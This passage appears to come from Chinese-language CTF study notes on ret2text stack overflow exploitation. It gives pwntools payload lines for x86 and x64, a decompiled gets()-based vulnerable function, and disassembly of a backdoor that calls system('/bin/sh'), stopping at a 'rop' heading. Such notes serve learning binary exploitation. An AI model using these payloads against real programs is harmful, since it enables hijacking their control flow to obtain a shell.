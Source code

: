 ```python
payload = b'a' * (0x12 + 4) + p32(0x8049196)
```



#### 				2) x64: 

```python
payload = b'a' * 溢出长度 + p64(target_addr)
```

例：

```c
# ida
int vuln()
{
  char v1[10]; // [rsp+6h] [rbp-Ah] BYREF

  gets(v1);
  return printf("%s", v1);
}
```

```
.text:0000000000400647 ; =============== S U B R O U T I N E =======================================
.text:0000000000400647
.text:0000000000400647 ; Attributes: bp-based frame
.text:0000000000400647
.text:0000000000400647                 public backdoor
.text:0000000000400647 backdoor        proc near
.text:0000000000400647 ; __unwind {
.text:0000000000400647                 push    rbp
.text:0000000000400648                 mov     rbp, rsp
.text:000000000040064B                 lea     rdi, command    ; "/bin/sh"
.text:0000000000400652                 mov     eax, 0
.text:0000000000400657                 call    _system
.text:000000000040065C                 nop
.text:000000000040065D                 pop     rbp
.text:000000000040065E                 retn
.text:000000000040065E ; } // starts at 400647
.text:000000000040065E backdoor        endp
```



**注意： 64位程序ret2text要跳过函数开头的push rbp指令**

```python
payload = b'a' * (0xa + 8) + p64(0x400647 + 1)
```



## rop
